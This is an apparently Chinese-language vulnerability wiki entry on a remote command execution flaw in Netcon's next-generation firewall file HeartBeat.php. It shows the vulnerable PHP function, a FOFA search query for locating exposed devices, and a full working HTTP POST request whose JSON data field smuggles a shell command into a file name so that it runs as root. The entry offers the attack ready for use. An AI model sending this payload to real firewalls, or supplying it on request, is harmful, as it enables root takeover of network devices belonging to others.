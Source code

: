 # 网康 下一代防火墙 HeartBeat.php 远程命令执行漏洞

## 漏洞描述

网康 下一代防火墙 HeartBeat.php文件存在远程命令执行漏洞，攻击者通过构造请求包即可获取服务器Root权限

## 漏洞影响

<a-checkbox checked> 奇安信 网康下一代防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked> app="网康科技-下一代防火墙"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/1649263762930-86ac1706-31bd-42c5-9b5f-822e695eac7b.png)

出现漏洞的文件 **applications/Models/NS/Rpc/HeartBeat.php**

![img](/assets/PeiQi-Wiki/img/1649263844774-f32c96ef-f93e-463a-aeee-bb5f7a567718.png)

```php
public function delTestFile($fileName){
	    if(dirname($fileName) == '/var/www/tmp'){
		$cmd = "/bin/rm -f {$fileName}";
		putenv("CMD=$cmd");
		$msg = shell_exec('/var/www/html/scripts/exec_cmd');
	    }
	    return time();
	}
```

调用方法 delTestFile，fileName参数可控，调用的 exec_cmd 文件为Root权限文件，构造请求包进行命令执行

```php
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"NS_Rpc_HeartBeat","method":"delTestFile","data": ["/var/www/tmp/1.txt;id>2.txt"],"type":"rpc","tid":11,"f8839p7rqtj":"="}
```

![img](/assets/PeiQi-Wiki/img/1649264137977-dad6f7f8-adce-4189-856b-c564d8ba8a75.png)

访问写入的文件

![img](/assets/PeiQi-Wiki/img/1649264181844-e562d3ea-a6cd-469c-9c8b-3998deed5bc3.png)